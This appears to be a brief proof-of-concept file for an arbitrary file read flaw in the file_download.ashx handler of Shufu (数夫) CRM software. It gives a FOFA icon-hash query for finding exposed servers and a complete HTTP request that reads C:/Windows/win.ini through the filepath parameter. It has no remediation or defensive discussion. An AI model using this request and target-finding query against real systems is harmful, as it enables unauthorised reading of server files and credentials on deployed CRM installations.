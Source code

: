 # 数夫CRM接口file_download存在任意文件读取

# fofa
```
icon_hash="-244202779"
```

# poc
```javascript
GET /Web/common/Handler/file_download.ashx?filepath=C:/Windows/win.ini HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0


```
